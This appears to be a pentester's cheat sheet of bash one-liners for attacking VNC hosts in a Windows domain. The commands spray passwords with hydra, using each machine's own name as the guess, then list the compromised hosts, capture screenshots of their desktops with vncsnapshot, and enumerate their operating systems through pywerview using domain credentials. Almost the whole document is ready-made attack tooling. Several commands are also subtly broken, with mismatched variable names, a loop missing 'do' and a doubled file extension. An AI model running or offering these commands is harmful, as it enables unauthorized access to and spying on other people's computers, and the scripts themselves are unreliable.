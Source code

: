 ### <a name='password-spraying'></a>password-spraying

**Case 1** : vnc_pwd == $ztarg_computer_name 
```bash
# // terminator || tmux / vsplit panel 1 / monitor progression
# // terminator || tmux / vsplit panel 1 / monitor progression / tail 
tail -f pt_XXX_hydra_vnc_output.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 0 / run / pwd spraying over vnc using hydra /
while read ztarg_computer_fqdn; do vnc_pwd=$(echo $ztarg_computer_name | cut -d"." -f1 | tr '[:upper:]' '[:lower:]'); hydra  -p $vnc_pwd vnc://$ztarget_computer_fqdn -w 2/0 -t 4 >> pt_XXX_hydra_vnc_output.txt; done < pt_XXX_getnetcomputers_OU_XXX_all.txt

# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / get success conns / 
grep -c successfully pt_XXX_hydra_vnc_output.txt
grep -c "^\[5900\]" pt_XXX_hydra_vnc_output.txt
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / 
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / monitor progression / check last $ztarg_computer_name displayed by 'vsplit panel 1 / tail' /
grep -n  $ztarg_computername pt_XXX_getnetcomputers_OU_XXX_all.txt.txt
```

### <a name='test-valid-accounts-hydra'></a>test-valid-accounts-hydra 
```bash
# // terminator || tmux / vsplit panel 0 / hsplit panel 1 / return / format output & list zpwned_computer_name
grep "^\[5900\]" pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
grep "^\[5900\]" -A 2 pt_XXX_hydra_vnc_output.txt | cut -f3 -d " " > pt_XXX_hydra_vnc_pwned.txt
```

### <a name='screenshots-4-pwned-desktop'></a>screenshots-4-pwned-desktop
```bash
while read ztarg_computer_fqdn; do export vnc_pwd=$(echo $ztarg_computer_fqdn | cut -d"." -f1 | tr '[:upper:]' '[:lower:]');   echo $vnc_pwd | vncpasswd -f > ./vnc_pwd.txt; echo -n $ztarg_computer_fqdn:; cat vnc_pwd.txt; vncsnapshot -passwd ./vnc_pwd.txt $ztarg_computer_fqdn pt_XXX_hydra_vnc_$ztarg_computer_fqdn.png >> pt_XXX_vncsnapshot_output.txt; done < pt_XXX_hydra_vnc_pwned.txt
```

### <a name='stats-4-pwned-desktop'></a>stats-4-pwned-desktop
```bash
# get the cn computer (1 line) and its OS (1 line) 
while read ztarg_computer_fqdn; python pywerview.py get-netcomputer --computername $ztarg_computer_fqdn -w $zdom_fqdn -u $ztarg_user_name -p XXX --dc-ip $zdom_dc_ip --attributes cn operatingSystem >> pt_XXX_getcomputer_XXX_os.txt; done < pt_XXX_hydra_vnc_pwned.txt

# format the result returned to CSV
i=0; while read line; do i=$(($i+1)); if [[ $i == 1 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' | tr '\n' ',' >> pt_XXX_getnetcomputer_XXX_os.csv ; elif [[ $i == 2 ]]; then echo $line | sed 's/^.*:\s\(.*\)$/\1/' >> pt_XXX_getnetcomputer_XXX_os.csv; i=0; fi; done < pt_XXX_getcomputer_XXX_os.txt
```
